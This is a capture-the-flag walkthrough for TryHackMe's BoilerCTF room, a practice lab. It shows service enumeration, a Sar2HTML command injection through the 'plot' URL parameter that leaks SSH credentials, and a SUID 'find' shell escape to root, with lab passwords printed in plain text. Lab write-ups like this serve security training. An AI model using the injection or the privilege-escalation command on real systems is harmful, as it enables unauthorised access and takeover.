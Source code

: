 # 29 - BoilerCTF

Room Link --> [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap 10.10.62.87 -sV -Pn -n -p- -T5 -vv

PORT      STATE SERVICE          REASON
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp    open  http             syn-ack ttl 63
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```
{% endcode %}

#### FTP enumeration

```
ftp 10.10.62.87
ftp> ls -al
229 Entering Extended Passive Mode (|||44125|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt

┌──(dking㉿dking)-[~/Downloads]
└─$ cat .info.txt           
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

#### Port 10000 (webmin)

Seems webmin is running on https --> [https://10.10.62.87:10000/](https://10.10.62.87:10000/)

Checking google and Webmin version 1.930 is not vulnerable, so we can't exploit that.

Enumerating with gobuster and discovered a CMS.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87 -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,db,ini -t 500 2>/dev/null

# outputs.
/joomla               (Status: 301) [Size: 311] [--> http://10.10.62.87/joomla/]
/manual               (Status: 301) [Size: 311] [--> http://10.10.62.87/manual/]
/robots.txt           (Status: 200) [Size: 257]
```
{% endcode %}

Navigating to --> [http://10.10.62.87/joomla/](http://10.10.62.87/joomla/) and started looking around.

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

More enumeration with gobuster.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.62.87/joomla/ -w /usr/share/dirb/wordlists/common.txt -t 500 2>/dev/null

# outputs
/_test                
/~www                 
/_archive             
/bin                  
/build                
/cache                
/components           
/images               
/includes             
/index.php            
/installation         
/language             
/layouts              
/libraries            
/media                
/modules              
/plugins              
/templates            
/tests                
/tmp                  
/_database            
/_files               
/administrator
```
{% endcode %}

**http://10.10.140.202/joomla/\_test/**

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-MrxP7-ZrTNQ/YJwO4lHCbhI/AAAAAAAAv-w/r1vH82TtD4Idhc4F7JmOF1rEK0jnRV_9QCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Searching for exploit on the Web, there seemed to be a [**Remote Code Execution vulnerability**](https://www.exploit-db.com/exploits/47204) in the Sar2HTML.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-nTPVdm9XrU0/YJwPBwVm4aI/AAAAAAAAv-0/Gq3EaR5ULPEgwDlSyzljRs-3rKh7i6YZgCLcBGAsYHQ/s16000/9.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Reading the [exploit](https://www.exploit-db.com/exploits/47204), it seemed that the plot parameter is injectable and when the command is entered, the output of the command can be viewed in the Select Host Drop Down option.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-BvbO2WsVUes/YJwPGq_khzI/AAAAAAAAv-4/n5l9RyNXEQcOjPTtUmS5h6HuM6R34UbhwCLcBGAsYHQ/s16000/10.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

#### **Exploitation**

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's wordking, we can list al files. The file is "log.txt".

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> http://10.10.72.60/joomla/\_test/index.php?plot=;cat log.txt

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*QFXboajcwZk7Q-tM4kXksA.png" alt="" height="367" width="700"><figcaption></figcaption></figure>

And BOOM! We got the **SSH** username: **basterd** and password: **superduperp@\$$**

### Initial Access

Login to ssh with the credentials.

```
ssh basterd@10.10.62.87
```

And we got in.

The other user's password was stored in "backup.sh" file.

```
USER=stoner
#superduperp@$$no1knows
```

### Priv Esc to Stoner

```bash
su stoner # enter the password.

find / -user root -perm -4000 -exec ls -al {} \; 2>/dev/null

# and we saw the "/usr/bin/find" binary.
/usr/bin/find . -exec /bin/sh -p \; -quit

# and got root.
```

